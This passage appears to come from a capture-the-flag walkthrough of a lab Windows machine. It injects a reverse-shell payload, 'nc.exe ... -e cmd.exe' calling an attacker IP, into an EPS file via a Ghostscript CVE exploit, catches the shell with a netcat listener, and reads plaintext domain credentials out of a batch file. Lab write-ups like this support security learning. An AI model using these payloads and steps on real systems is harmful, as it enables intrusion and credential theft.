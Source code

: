 ```
# python3 CVE_2023_36664_exploit.py --inject --payload "nc.exe 10.10.14.37 4545 -e cmd.exe" --filename file.eps
[+] Payload successfully injected into file.eps.

```

Before sending the malicious file to our innocent drbrown again, be sure start the `nc` listener on our machine.

```
# nc -nvlp 4545
listening on [any] 4545 ...
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.241] 32752
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>  
```

And here we got the revershell connection on our `nc` listener. Listing the directories be can the **ghostscript.bat** file. Reading content from the file we can find our another pair of credentials. **drbrown:chr!$br0wn**. 
The user flag is present the Desktop Folder of the user **drbrown**. 

```
C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

04/12/2024  07:13 AM    <DIR>          .
04/12/2024  07:13 AM    <DIR>          ..
10/23/2023  03:33 PM               373 ghostscript.bat
04/12/2024  07:13 AM            45,272 nc.exe
               2 File(s)         45,645 bytes
               2 Dir(s)   4,183,494,656 bytes free

C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring 'chr!$br0wn' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>
```

## Privilege Escalation
Using the `crackmapexec` we can see the list the shares which also confirms the validity of the credentials we found on the `ghostscript.bat` file.
